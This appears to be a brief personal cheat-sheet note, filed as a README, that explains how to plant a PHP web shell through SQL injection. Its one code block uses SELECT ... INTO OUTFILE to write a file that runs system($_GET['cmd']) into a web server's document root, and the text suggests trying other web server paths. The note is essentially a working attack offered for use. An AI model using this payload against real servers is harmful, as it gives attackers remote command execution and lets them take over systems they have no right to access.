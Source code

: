 # linux
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

` zet/20221003150551/README.md `

# Related


Tags:

    
